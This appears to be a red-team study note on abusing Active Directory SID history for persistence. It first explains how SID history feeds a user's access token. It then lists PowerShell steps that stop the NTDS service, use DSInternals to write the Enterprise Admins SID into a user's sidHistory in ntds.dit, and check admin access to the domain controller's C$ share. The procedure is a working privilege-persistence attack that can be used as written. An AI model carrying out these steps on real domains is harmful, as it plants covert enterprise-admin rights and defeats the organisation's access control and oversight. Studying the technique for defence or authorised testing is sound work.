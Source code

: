 #powershell 
- [SID](../../Windows/Windows%20Internals/Uncategorized/SID.md) is used to track the security principal for an account.
- SID history is used to track previous SIDs of the user (maybe while migrating the AD environment to a new one). This allows the user to access resource in the previous/last domain using the new account.
- SID history, by design, can story any SID, and doesn't need to be from other domain.
- With domain admin privileges, we can add/modify SIDs to the SID history property of a user object.
- When the user logs in, the SIDs are added to their access token, which determines the privilege of the user.
- This can be exploited for persistence as we can add the SID of an enterprise admin, as this would elevate the privilege of the user, even though we are not added to the Enterprise Admin group.
- SID property can fetched with AD module:
```powershell
Get-ADUser dr.dragon -Properties sidhistory
# empty by default
```
- Adding SID history using DSInternals
```powershell
# Fetch SID for Enterprise Admins
Get-ADGroup "Enterprise Admins" -Property SID
# Stoping the ntds service
Stop-Service -Name ntds -Force
# Adding the SID history
Add-ADDBSidHistory -SamAccountName "dr.dragon" -SidHistory 'ADMIN_SID' -DatabasePath C:\Windows\NTDS\ntds.dit
# Start the ntds service again
Start-Service -Name ntds
# Verify Enterprise Admin access
dir \\dc.mydomain.local\C$
```